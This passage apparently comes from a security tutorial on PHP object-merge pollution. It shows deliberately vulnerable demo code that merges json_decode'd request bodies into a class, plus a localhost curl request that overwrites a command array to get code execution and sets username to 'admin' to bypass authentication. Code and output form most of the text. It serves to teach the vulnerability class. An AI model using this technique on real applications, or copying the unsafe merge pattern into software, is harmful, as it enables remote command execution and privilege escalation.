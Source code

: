 In this class `Foo`, method `healthCheck` is an RCE gadget and method `isAdmin` is an authentication bypass gadget.

With that said, if the attacker can control the merging object's attributes, such as via [`json_decode`](https://www.php.net/manual/en/function.json-decode.php), he/she can overwrite the object's attributes to the desired one. For example, the attacker can overwrite public attribute `healthCheckCommands` array's value with malicious one:

```php
// $userInputJson = '{"healthCheckCommands": ["echo RCE gadget executed!"], "username": "admin"}';
$userInputJson = file_get_contents('php://input');
if (!empty($userInputJson)) {
    $baseObject = new Foo();
    
    echo "[*] Before merging:\n";
    print_r($baseObject);
    $baseObject->healthCheck();
    $baseObject->isAdmin();
    
    $userInputObject = json_decode($userInputJson);
    $mergedObject = merge($baseObject, $userInputObject);
    
    echo "\n[*] After merging:\n";
    print_r($mergedObject);
    $mergedObject->healthCheck();
    $mergedObject->isAdmin();
}
```

```shell
└> curl -X POST http://localhost:8000/merge.php --data '{"healthCheckCommands": ["echo RCE gadget executed!"], "username": "admin"}'
[*] Before merging:
Foo Object
(
    [healthCheckCommands] => Array
        (
            [0] => ping -c 1 127.0.0.1
        )

    [username] => not_admin
)
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.031 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.031/0.031/0.031/0.000 ms
[-] Is NOT admin

[*] After merging:
Foo Object
(
    [healthCheckCommands] => Array
        (
            [0] => echo RCE gadget executed!
        )

    [username] => admin
)
RCE gadget executed!
[+] Is admin
```
